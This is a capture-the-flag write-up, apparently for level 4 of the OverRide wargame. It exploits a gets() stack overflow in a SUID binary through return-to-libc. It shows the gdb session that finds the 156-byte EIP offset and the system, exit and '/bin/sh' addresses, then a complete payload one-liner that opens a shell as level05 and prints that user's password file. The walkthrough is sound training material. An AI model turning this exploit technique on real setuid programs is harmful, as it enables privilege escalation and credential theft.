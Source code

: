 # Level 4

## Vulnerability

gets() stack overflow + Return-to-libc

## Context

We find a binary with owner ```level05``` and SUID.
```
level04@OverRide:~$ ls -l
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04
```

When run it gives us a hint, then reads from stdin, then exits.
```
level04@OverRide:~$ ./level04
Give me some shellcode, k
[... user input from stdin ...]
child is exiting...
level04@OverRide:~$
```

## Solution

### main() overview

First ```main()``` forks a child process, and links the child's return to the parent.

Then ```gets()``` reads stdin into a buffer.

Finally the child process is killed if it makes a syscall to exec().

See [disassembly notes](https://github.com/anyashuka/Override/blob/main/level04/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

### Find EIP offset

The ```gets()``` call is vulnerable to buffer overflow, lets try to overflow and overwrite EIP, and so take control of the program.

Because ```gets()``` is called by the child process, to investigate in gdb we need to follow the child using the command ```set follow-fork-mode child```.

Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find we reach the EIP after 156 bytes.
```
level04@OverRide:~$ gdb -q level04
...
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04
[New process 1701]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2A

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1701]
0x41326641 in ?? ()               // EIP offset = 156 bytes
```

### Find libc addresses

However, if we try to insert a malicious shellcode which opens a shell the child process is killed. So let's try a return-to-libc attack. First, we need the address of ```system()```, ```exit()``` & ```"/bin/sh"```.
```
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

### Build exploit

So we build our exploit string:
1. 156 byte buffer - ```python -c "print 'A' * 156```
2. system() address - ```\xd0\xae\xe6\xf7```
3. exit() address - ```\x70\xeb\xe5\xf7```
4. "/bin/sh" address - ```\xec\x97\xf8\xf7```

Let's pipe our exploit string into the binary stdin.
```
level04@OverRide:~$ (python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" ; cat) |./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

## Recreate Exploited Binary


